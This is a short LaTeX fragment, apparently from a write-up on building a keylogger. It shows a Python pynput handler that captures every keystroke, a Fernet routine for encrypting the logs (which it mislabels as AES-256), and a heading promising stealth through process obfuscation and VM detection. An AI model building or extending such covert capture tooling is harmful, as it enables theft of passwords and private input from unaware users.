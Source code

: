 \documentclass[12pt,a4paper]{article}
\begin{document}
\section{Implementation}

\subsection{Core Keylogging Functionality}

The core keylogging implementation utilizes the \texttt{pynput} library for cross-platform input capture:

\begin{lstlisting}[language=Python, caption=Core Keystroke Capture Implementation]
def on_key_press(self, key):
    """Handle key press events"""
    try:
        # Regular character keys
        if hasattr(key, 'char') and key.char is not None:
            self.log_keystroke(key.char)
        else:
            # Special keys (Ctrl, Alt, etc.)
            special_key = f"[{key.name.upper()}]"
            self.log_keystroke(special_key)
    except AttributeError:
        # Handle special key cases
        self.log_keystroke(f"[{str(key).upper()}]")
\end{lstlisting}

\subsection{Encryption Implementation}

Data protection is implemented using AES-256 encryption via the Fernet symmetric encryption:

\begin{lstlisting}[language=Python, caption=Encryption Implementation]
def encrypt_data(self, data):
    """Encrypt sensitive data using Fernet"""
    if not self.encryption_enabled:
        return data
    
    try:
        encrypted = self.cipher.encrypt(data.encode('utf-8'))
        return encrypted
    except Exception as e:
        self.logger.error(f"Encryption error: {e}")
        return data
\end{lstlisting}

\subsection{Stealth Features}

Anti-detection mechanisms include process obfuscation and VM detection:
\end{document}
